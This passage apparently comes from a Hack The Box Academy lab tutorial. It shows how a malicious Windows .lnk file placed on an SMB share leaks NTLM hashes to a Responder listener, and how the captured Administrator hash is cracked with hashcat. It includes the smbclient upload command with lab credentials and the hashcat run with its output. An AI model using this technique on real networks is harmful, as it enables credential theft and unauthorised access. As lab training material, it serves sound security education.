 ### Windows Shortcuts

Next, we will leverage a vulnerability in how `Windows` handles shortcut files. You see, the fundamental issue with shortcut files is their capacity to store not just paths to local files but also links to network resources. More specifically, a `.lnk` file can be engineered to include a `UNC` ( `Universal Naming Convention`) path that points to an external, attacker-controlled server rather than a legitimate local or network file.

When a user opens the folder containing the malicious `.lnk` file, `Windows` automatically tries to resolve the shortcut to generate a file icon or preview. This operation necessitates connecting to the resource the shortcut points to. If the `.lnk` file has been crafted to point to an `SMB` server controlled by an attacker, this action will trigger the `Windows` machine to attempt an `NTLM` authentication.

The `hack.lnk` is set to load a resource from our system, and we will use `Responder` to capture the `NTLM` hashes as the target `Windows` system attempts to load the resource from our system.

Using `smbclient`, we will upload the `hack.lnk` file into the `Development Share` folder, and then when a user on the target system browses the `Development Share` folder, we will capture their `NTLM Hashes`.

```shell
smbclient "//10.129.228.187/Development Share" -U "HTB-student" --password="HTB_@cademy_stdnt!" -c "put hack.lnk"

putting file hack.lnk as \hack.lnk (72.9 kb/s) (average 72.9 kb/s)

```

As expected, as soon as someone opens the folder, we get the hashes.

![](https://academy.hackthebox.com/storage/modules/243/hashes.png)

## Cracking the hashes

Now that we have the hashes, we can crack the password for `WIN-41LARS8U72P\Administrator`. Paste the hash into a new file and then fire up `hashcat` using the `rockyou wordlist`.

```shell
echo "Administrator::WIN-41LARS8U72P:0b68568ed3fcaf11:CC1C7F08BECB0234AA98B9...SNIP,,," >> hash

hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt -O
hashcat (v6.1.1) starting...

...

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

Administrator::WIN-41LARS8U72P:0b68568ed3fcaf11:CC1C7F08BECB0234AA98B9...SNIP...:chris...SNIP...

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WIN-41LARS8U72P:0b68568ed3fcaf11:cc1...000000
Time.Started.....: Mon Oct 30 12:04:28 2023 (0 secs)
Time.Estimated...: Mon Oct 30 12:04:28 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    61895 H/s (3.01ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096/14344385 (0.03%)
```